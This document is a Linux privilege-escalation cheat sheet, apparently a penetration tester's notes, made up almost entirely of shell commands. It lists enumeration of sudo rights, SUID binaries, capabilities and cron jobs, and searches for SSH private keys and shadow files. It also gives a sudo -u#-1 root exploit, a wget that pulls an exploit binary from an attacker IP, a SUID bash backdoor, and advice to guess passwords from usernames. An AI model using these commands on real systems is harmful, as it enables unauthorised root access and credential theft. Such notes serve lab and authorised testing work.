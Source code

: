 ```shell
python3 -c 'import pty; pty.spawn("/bin/bash")'

grep bash /etc/passwd

id

env                            <--- CHECK FOR A WONKY SHELL

find / -group <groups> 2>/dev/null

history

sudo -l

sudo -V | grep version
sudo -u#-1 /bin/bash

find / -name id_rsa 2>/dev/null
grep -rnw "PRIVATE KEY" /home/* 2>/dev/null | grep ":1"
grep -rnw "ssh-rsa" /home/* 2>/dev/null | grep ":1"

find / -type f -perm -04000 -ls 2>/dev/null

ls -la /etc/passwd /etc/shadow /etc/security/opasswd

cat /etc/crontab
crontab -l
ls /etc/cron.d
find / -path /proc -prune -o -type f -perm -o+w 2>/dev/null

find /usr/bin /usr/sbin /usr/local/bin /usr/local/sbin -type f -exec getcap {} \;
getcap -r / 2>/dev/null
/usr/sbin/getcap -r / 2>/dev/null

cat /etc/exports
cat /etc/fstab

ip a
ifconfig
netstat -r
ip route
ss -anp
routel
cat /etc/iptables/rules.v4

cat .bashrc

ps -aux
ps -aux | grep cron        <-- search for "root   /usr/sbin/cron -f"

realm list
ps -ef | grep -i "winbind\|sssd"

ls -l /tmp /var/tmp /dev/shm /opt

logrotate -v

ps aux | grep tmux

dpkg -l
```
1. Snoop on processes using pspy - some cron jobs may be running in the background
2. Research and enumerate literally every cron job running
3. su into other users using their usernames as passwords; vagrant:vagrant
4. Run PEAS and LinEnum
```shell 
wget 10.10.14.4/sudodoom
```

```bash
cp /bin/bash /tmp/bash; chmod +s /tmp/bash
```
